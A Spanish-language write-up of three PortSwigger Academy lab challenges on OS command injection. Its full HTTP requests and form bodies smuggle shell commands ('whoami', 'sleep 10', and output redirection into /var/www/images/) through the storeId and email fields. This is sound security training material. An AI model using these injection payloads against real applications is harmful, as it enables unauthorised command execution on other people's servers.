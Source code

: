## Reto 1: Inyección de comandos del sistema operativo, caso simple

Este laboratorio contiene una vulnerabilidad de inyección de comandos del sistema operativo en el verificador de stock de productos.

La aplicación ejecuta un comando de shell que contiene los identificadores de productos y tiendas proporcionados por el usuario y devuelve el resultado sin procesar del comando en su respuesta.

Para resolver el laboratorio, ejecute el whoamiComando para determinar el nombre del usuario actual. 


vulnerabilidad de inyección de comandos del sistema operativo en el verificador de stock. Al modificar el parámetro ‘storeID’ con ‘1|whoami‘, logramos que el servidor ejecute el comando ‘whoami‘, revelando así el usuario actual del sistema.

```
POST /product/stock HTTP/2
Host: 0a5400e00438941d80e7716d00c9002a.web-security-academy.net
Cookie: session=8ja1BH67dvla1YXqKpNHYgnjmDfHmgRR
Content-Length: 30
Sec-Ch-Ua: 
Sec-Ch-Ua-Platform: ""
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.141 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: https://0a5400e00438941d80e7716d00c9002a.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a5400e00438941d80e7716d00c9002a.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9

productId=1&storeId=1; whoami;
```

## Reto 2: Inyección ciega de comandos del sistema operativo con retrasos de tiempo

Este laboratorio contiene una vulnerabilidad de inyección de comandos ciegos del sistema operativo en la función de retroalimentación.

La aplicación ejecuta un comando de shell que contiene los datos proporcionados por el usuario. La salida del comando no se devuelve en la respuesta.

Para resolver el laboratorio, explote la vulnerabilidad de inyección de comandos ciegos del sistema operativo para provocar un retraso de 10 segundos. 

una inyección de comandos del sistema operativo en modalidad ciega, usando la función de feedback de la aplicación. Aunque el resultado del comando no se muestra en la respuesta, conseguimos demostrar su ejecución provocando una pausa intencionada.

Al inyectar `sleep(10)` en el parámetro ‘email‘, el servidor ejecuta el comando y genera un retardo de 10 segundos, lo que confirma la vulnerabilidad.

```
csrf=hCw2SmFjBQu1AAh8tUe4DzWbheIrqurV&name=test&email=test@test.com;sleep 10; &subject=afasdf&message=asdfasd
```

## Reto 3:Inyección ciega de comandos del sistema operativo con redirección de salida

Este laboratorio contiene una vulnerabilidad de inyección de comandos ciegos del sistema operativo en la función de retroalimentación.

La aplicación ejecuta un comando de shell que contiene los datos proporcionados por el usuario. La salida del comando no se devuelve en la respuesta. Sin embargo, puede usar la redirección de salida para capturar la salida del comando. Hay una carpeta con permisos de escritura en:
/var/www/images/

La aplicación sirve las imágenes del catálogo de productos desde esta ubicación. Puede redirigir la salida del comando inyectado a un archivo en esta carpeta y luego usar la URL de carga de la imagen para recuperar el contenido del archivo.

Para resolver el laboratorio, ejecute el whoamicomando y recuperar la salida. 

Aprovechamos que el directorio ‘/var/www/images/‘ es escribible, inyectando el comando ‘whoami‘ y redirigiendo su salida a un archivo dentro de esa carpeta (output.txt).

Luego accedemos a ese archivo a través del sistema de carga de imágenes, logrando visualizar el resultado del comando ejecutado en el servidor.

```
csrf=EI53BjEDDInZex7QqNGan3PzJ7bE0xCb&name=test&email=carlos@cambiado.com;whoami > /var/www/images/test.txt;&subject=afasdf&message=afasdfasdfa
```


